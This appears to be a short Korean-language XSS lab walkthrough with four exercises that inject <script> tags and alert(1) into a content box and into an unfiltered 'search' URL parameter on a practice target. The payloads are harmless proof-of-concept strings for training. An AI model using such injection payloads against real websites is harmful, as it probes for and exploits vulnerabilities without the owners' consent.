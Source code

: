# 실습1. Content에 <script>사용하기
- title에 아무거나 넣어본다.
> 예를 들어 [XSS실습]

- Content에 <script> 삽입하기.
> 예를 들어 Content 박스 안에
```html
<script>
</script>
``` 

# 실습2. alert(1) 넣어보기
- Content 박스안에 alert(1)만 넣어보자!
```javascript
<script>
alert(1);
</script>
```

# 실습3. URL주소로 장난쳐보기
- 실습 설명을 읽어보고 정리하면 다음과 같다
> search 매개변수에 주어진 값을 h3태그에 필터없이 '그대로' 띄워준다.
일단 URL에 <script> 태그만 넣어보자.
```http://{target-url}/?search=<script></script>```

# 실습4. URL로 장난쳐서 alert 띄워보기
> script태그 사이에 alert만 쳐주면 된다.
```http://{target-url}/?search=<script>alert(1)</script>```